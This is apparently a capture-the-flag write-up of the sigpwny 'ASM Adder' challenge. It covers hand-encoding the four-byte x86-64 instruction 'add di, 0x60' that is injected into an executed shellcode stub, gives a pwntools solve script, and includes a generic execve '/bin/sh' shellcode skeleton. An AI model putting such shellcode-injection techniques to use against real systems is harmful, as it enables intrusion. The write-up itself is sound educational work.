





<div align="center">

# ➕ ASM Adder

### Binary Exploitation Writeup · sigpwny CTF · Hand-Encoding a Single x86-64 Instruction


*Four bytes. One instruction. A `fork()`'d process that checks its own exit code for the flag.*

</div>

---

## 📌 TL;DR

The challenge forks a child process that injects **our** 4–8 bytes into the middle of a tiny, pre-built shellcode stub, then executes it as real machine code. The stub already sets up `exit(16)`; our job is to supply one instruction that bumps the exit code from `16` to the magic value `112` before the `syscall` fires. The parent process checks that exact exit code and prints the flag if it matches. The whole exploit is a single hand-encoded x86-64 instruction, **4 bytes**, built from first principles (opcode, prefix, ModRM byte) rather than assembled by a tool.

```python
p.sendline(b'\x66\x83\xc7\x60')   # add di, 0x60
```

| | |
|---|---|
| **Vulnerability class** | Direct code injection — a data buffer is cast to a function pointer and executed |
| **Constraint** | Only 8 bytes of input, and the last byte sent is always overwritten with NOP |
| **Goal** | Change the child's exit code from `16` to `112` (`16 + 96 = 112`) |
| **Solution** | A single instruction, `add di, 0x60`, hand-encoded as `66 83 C7 60` |
| **Flag mechanism** | Parent reads `WEXITSTATUS()`; if it equals `112`, it prints `flag.txt` |

---

## 🗺️ Table of Contents

1. [Challenge](#1--challenge)
2. [Program Logic Analysis](#2--program-logic-analysis)
3. [Solution Strategy](#3--solution-strategy)
4. [Manually Encoding the Instruction](#4--manually-encoding-the-instruction-into-machine-bytes)
5. [Final Execution Chain](#5--final-execution-chain-in-the-child-process)
6. [Final Exploit](#6--final-exploit)
7. [Key Concepts Learned](#7--key-concepts-learned)
8. [General Notes for This Challenge Series](#8--general-notes-for-the-rest-of-this-challenge-series)

---

## 🧭 Exploit Flow at a Glance



---

## 1. 🎯 Challenge

> The program sets up the code to run a little bit of assembly! Use pwntools to send some asm to fix the exit call in the child program.

```
nc chal.sigpwny.com 9000
```

Given skeleton script:

```python
from pwn import *

# p = process("./challenge")
p = remote('chal.sigpwny.com', 9000)
"""
0:  ?? ?? ?? ??             add    ??, ?????
"""
p.sendline('\x??\x??\x??\x??')
p.interactive()
```

### Source Code

```c
#include <stdio.h>
#include <unistd.h>
#include <sys/wait.h>
#include <stdlib.h>
#include <string.h>

#define bufsize 8

int main() {
  // Buffer Cleanup
  setvbuf(stdout, 0, 2, 0);
  setvbuf(stdin, 0, 2, 0);

  // makes a child process that the parent keeps track of.
  pid_t a = fork();
  if (a){
    // This is the parent process!
    int status;
    wait(&status);
    int a = WEXITSTATUS(status);

    printf("My partner exited with: %d\n", a);
    if (a == 112){
        FILE *fptr;
        fptr = fopen("./flag.txt", "r");
        char* line = NULL;
        size_t len = 0;
        getline(&line, &len, fptr);
        printf("%s", line);
    }
  }
  else {
    // This is the child process running code!
    char* resp = "Give me code:";
    write(1, resp, strlen(resp));
    /*
      0:  b0 3c                   mov    al,0x3c
      2:  66 bf 10 00             mov    di,0x10
    */
    char setup[6] = { 0xB0, 0x3C, 0x66, 0xBF, 0x10, 0x00 };
    char code[bufsize];
    /*
      0: 0f 05                    syscall
    */
    char post[2] = { 0x0F, 0x05 };
    memset(code, 0x90, bufsize);
    int x = read(0, code, bufsize);
    memset(code+x-1, 0x90, bufsize-x+1);

    char func[6+2+bufsize];
    memcpy(func, setup, 6);
    memcpy(func+6, code, x);
    memcpy(func+6+x, post, 2);

    close(0); close(1);

    int (*foo)() = (int(*)())func;
    foo();
    exit(10);
  }
}
```

---

## 2. 🔬 Program Logic Analysis

The program uses `fork()` to create two processes.

### Parent process

It calls `wait(&status)` to block until the child finishes, then extracts the real exit code with `WEXITSTATUS(status)` (a value between `0` and `255`). If that value is **exactly `112`**, it opens `flag.txt` and prints it. So our goal is to make the child process exit with code `112`.

### Child process

It builds an executable buffer called `func` (16 bytes total) out of three pieces:



- `setup` is the pre-written machine code for two instructions:
  ```asm
  mov al, 0x3c     ; B0 3C
  mov di, 0x10     ; 66 BF 10 00
  ```
  This sets `rax = 0x3C` (the syscall number for `exit`) and `edi = 0x10 = 16` (the exit code argument).

- `post` is the machine code for the `syscall` instruction (`0F 05`).

- `code` is the 8-byte buffer **we** control.

The program then does:
```c
int (*foo)() = (int(*)())func;
foo();
```
It casts the raw byte array `func` to a function pointer and calls it — meaning the CPU treats those bytes as actual instructions to execute, instead of plain data.

### Key detail: the last byte gets reset

```c
int x = read(0, code, bufsize);
memset(code+x-1, 0x90, bufsize-x+1);
```

The last byte we send gets overwritten with `NOP` (`0x90`). This is because tools like `sendline` (or typing manually) usually append a trailing `\n` (newline); this line neutralizes that extra byte so it doesn't corrupt our shellcode.


---

## 3. 🧮 Solution Strategy

We need to change `edi` from `16` (`0x10`) to `112` (`0x70`) so the final syscall becomes:

```c
exit(112);
```

Required difference:

```
112 - 16 = 96 = 0x60
```

So the instruction we need is:

```asm
add di, 0x60
```

---

## 4. ⚙️ Manually Encoding the Instruction into Machine Bytes

### Final bytes

| Byte | Role |
|---|---|
| `0x66` | Operand-size override prefix → makes the operation 16-bit (since `DI` is a 16-bit register) |
| `0x83` | Opcode for `ADD r/m16, imm8` (the immediate value is sign-extended) |
| `0xC7` | ModRM byte |
| `0x60` | Immediate value (96 in decimal) |

### Breaking down the ModRM byte (`0xC7`)

ModRM is a single byte split into three fields:

```
bit:    7  6  |  5  4  3  |  2  1  0
field:  Mod   |    Reg    |    RM
```

`0xC7` in binary: `11 000 111`



| Field | Value | Meaning |
|---|---|---|
| **Mod** | `11` | The RM operand is a register directly (not a memory address) |
| **Reg** | `000` | Opcode extension → the **ADD** operation (for opcode `0x83`) |
| **RM** | `111` | The **DI** register (in 16-bit operand mode) |

16-bit register table based on the RM field:

| Code | Register |
|---|---|
| `000` | AX |
| `001` | CX |
| `010` | DX |
| `011` | BX |
| `100` | SP |
| `101` | BP |
| `110` | SI |
| `111` | DI |

Opcode extension table for `0x83` (Reg field):

| Reg | Operation |
|---|---|
| `000` | ADD |
| `001` | OR |
| `010` | ADC |
| `011` | SBB |
| `100` | AND |
| `101` | SUB |
| `110` | XOR |
| `111` | CMP |

Result: `add di, 0x60` ✅ — confirmed by round-tripping the bytes `66 83 C7 60` through `objdump` in disassembler mode, which echoes back exactly `add di, 0x60`.

---

## 5. 🔗 Final Execution Chain in the Child Process



```asm
mov al, 0x3c     ; rax = 0x3c  (60 = syscall number for exit)
mov di, 0x10     ; edi = 16
add di, 0x60     ; edi = 16 + 96 = 112   <-- our injected instruction
nop              ; the byte reset by the program, harmless
syscall          ; sys_exit(112) is invoked
```

The child exits with code `112` → the parent detects this → `flag.txt` is printed.

---

## 6. 🚀 Final Exploit

```python
from pwn import *

p = remote('chal.sigpwny.com', 9000)
"""
0:  66 83 c7 60             add    di, 0x60
"""
p.sendline(b'\x66\x83\xc7\x60')
p.interactive()
```

---

## 7. 🧠 Key Concepts Learned

### 1. `fork()` and parent/child path separation

`fork()` creates a full copy of the current process. In the parent, the return value is the child's PID (non-zero); in the child, it's always `0`. This difference is what separates execution paths in `if (a) {...} else {...}`.



### 2. `WEXITSTATUS` and the 8-bit exit code limit

A process's exit code can only range from `0` to `255`, since the operating system only reserves a single byte for it.

### 3. Executing data directly as code

```c
int (*foo)() = (int(*)())func;
foo();
```

This is exactly the core mechanism behind shellcode injection: casting a data buffer to a function pointer and calling it causes the CPU to treat the buffer's bytes as instructions.

### 4. x86-64 Linux Syscall Calling Convention

```
rax  = syscall number
rdi  = argument 1
rsi  = argument 2
rdx  = argument 3
r10  = argument 4   (not rcx — rcx gets clobbered by the syscall instruction)
r8   = argument 5
r9   = argument 6
```

> Note: this differs from the regular C function calling convention (`rdi, rsi, rdx, rcx, r8, r9`).

Commonly used syscalls in pwn:

| Name | Number (rax) | rdi | rsi | rdx | Purpose |
|---|---|---|---|---|---|
| `read` | 0 | fd | buf | count | Read from a file/stdin |
| `write` | 1 | fd | buf | count | Write to a file/stdout |
| `open` | 2 | path | flags | mode | Open a file |
| `close` | 3 | fd | - | - | Close a file descriptor |
| `mmap` | 9 | addr | length | prot | Allocate memory (bypassing NX via ROP) |
| `mprotect` | 10 | addr | len | prot | Change memory page permissions |
| `fork` | 57 | - | - | - | Create a new process |
| `execve` | 59 | path | argv | envp | Execute another program (usually `/bin/sh`) |
| `exit` | 60 | code | - | - | Terminate the process |
| `wait4` | 61 | pid | status | options | Wait for a child process |

The classic end goal of many pwn challenges is spawning a shell:

```asm
mov rax, 59        ; execve
mov rdi, <address of "/bin/sh">
xor rsi, rsi       ; argv = NULL
xor rdx, rdx       ; envp = NULL
syscall
```

### 5. Register width differences (`al` / `ax` / `eax` / `rax`)


When only `al` is set, the upper bytes of `rax` remain untouched. You always need to pay attention to the width of the register you're modifying, or the upper bytes can remain "dirty" (garbage) and corrupt the result.

### 6. ModRM Byte

How operands (register or memory) are encoded in x86 instructions, via the three fields `Mod`, `Reg`, and `RM` packed into a single byte.

### 7. Why binary analysis wasn't needed for this challenge

When full C source is provided, it usually gives enough information to solve the challenge on its own. That said, the binary is still valuable for:

- **Validation with `checksec`**: checking NX/PIE/Canary/RELRO status.
- **Local testing with `gdb`**: running `process("./challenge")` instead of connecting remotely, and setting breakpoints before/after `foo()` to observe register state live.
- **The binary is always the "ground truth"**; the source just helps you understand things faster, but it may occasionally diverge slightly from the actual compiled binary.

---

## 8. 📋 General Notes for the Rest of This Challenge Series

- Always run `checksec ./challenge` before writing an exploit, to know which protections are active.
- To find exact offsets (e.g. distance to the return address), use `pwntools.cyclic()` and `gdb` against the actual binary rather than guessing from source.
- For real shellcode generation (not manual practice), use `pwntools.asm()` or `pwntools.shellcraft`; manual byte-by-byte encoding is mainly useful for deep learning purposes.

---

## 🧰 Tools Used

- [pwntools](https://github.com/Gallopsled/pwntools) — interacting with the remote service and (optionally) assembling/encoding shellcode
- `nc` — initial connection to probe service behavior

## 🏁 Flag

```
sigpwny{...}
```

---

<div align="center">

⭐ If this writeup helped you, consider leaving a star.

</div>
